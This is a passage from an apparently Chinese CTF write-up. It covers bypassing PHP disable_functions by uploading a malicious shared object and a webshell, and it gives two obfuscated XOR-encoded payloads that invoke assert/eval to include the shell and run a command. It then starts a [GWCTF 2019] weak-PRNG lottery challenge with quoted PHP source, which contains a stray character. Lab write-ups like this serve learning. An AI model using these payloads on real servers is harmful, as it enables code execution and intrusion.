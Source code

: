 [Bypass disable_functions](https://www.youncyb.cn/?p=625)


上传恶意 so，以及php到tmp 目录下，html无权限上传

![](https://img-blog.csdnimg.cn/15a1a121520d49f290e2db357bf86ce5.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

利用前面的payload包含shell.php

payload:
```
?code=${%fe%fe%fe%fe^%a1%b9%bb%aa}[_](${%fe%fe%fe%fe^%a1%b9%bb%aa}[__]);
&_=assert&__=include('/var/tmp/shell.php')&cmd=/readflag
&outpath=/tmp/tmpfile&sopath=/var/tmp/bypass_disablefunc_x64.so

或

?code=$_=%22`{{{%22^%22?%3C%3E/%22;${$_}[_](${$_}[__]);&_=assert
&__=var_dump(eval($_GET[a]))&a=include(%27/tmp/123.php%27);&cmd=./../../../readflag
&outpath=/tmp/123.txt&sopath=/tmp/123.so
```

GC UAF：
利用的是PHP garbage collector程序中的堆溢出触发，影响范围为 `7.0-1.3`

上传php，直接include(shell2.php)

![](https://img-blog.csdnimg.cn/8dcbe9331cb8463386cd8b6fe835ecb7.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)
蚁剑自带有bypass

![](https://img-blog.csdnimg.cn/66ea133dfb46461ca22e3d5c09627896.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70#pic_center)

---
# [GWCTF 2019]枯燥的抽奖
- 伪随机数

F12 发现 check.php

```php
<?php
#这不是抽奖程序的源代码！不许看！
header("Content-Type: text/html;charset=utf-8");
session_start();
if(!isset($_SESSION['seed'])){
$_SESSION['seed']=rand(0,999999999);
}

mt_srand($_SESSION['seed']);
$str_long1 = "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ";
$str='';
$len1=20;
for ( $i = 0; $i < $len1; $i++ ){
    $str.=substr($str_long1, mt_rand(0, strlen($str_long1) - 1), 1);       
}
$str_show = substr($str, 0, 10);
echo "<p id='p1'>".$str_show."</p>";


if(isset($_POST['num'])){
    if($_POST['num']===$str){x
        echo "<p id=flag>抽奖，就是那么枯燥且无味，给你flag{xxxxxxxxx}</p>";
    }
    else{
        echo "<p id=flag>没抽中哦，再试试吧</p>";
    }
}
```
